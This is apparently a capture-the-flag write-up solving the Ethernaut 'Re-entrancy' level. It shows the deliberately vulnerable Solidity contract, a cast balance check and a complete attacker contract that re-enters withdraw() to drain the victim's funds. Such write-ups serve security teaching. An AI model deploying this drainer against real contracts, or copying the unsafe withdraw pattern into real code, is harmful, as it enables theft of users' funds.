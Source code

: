 ```yaml
---
title: Ethernaut - Re-entrancy - Solution
date: '2024-05-08'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Re-entrancy CTF
---
```


# Ethernaut - Re-entrancy - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## Exploit

To complete this level, we need to drain all funds from the contract.
This can be achieved by exploiting the fact that the contract's `withdraw()` function does not follow the checks-effects-interactions pattern and is, therefore, vulnerable to the well-known [reentrancy attack](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#reentrancy).

First, we can check the balance of our victim via:

```bash
cast balance <your level instance address> --rpc-url $SEP_RPC_URL --ether
# Result: 0.001000000000000000
```

To steal 1 Finney from the contract, we can use the following attacker:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract ReentranceAttacker {
    IReentrance public immutable VICTIM;
    bool public reentered;

    constructor(address victim) {
        VICTIM = IReentrance(victim);
    }

    function attack() external payable {
        VICTIM.donate{value: 1e15}(address(this));
        VICTIM.withdraw(1e15); // 1e15 = 1 Finney
    }

    receive() external payable {
        if (!reentered) {
            VICTIM.withdraw(1e15);
            reentered = true;
        }
    }
}
```

Note that we must send a value of 1 Finney when calling `attack()`.
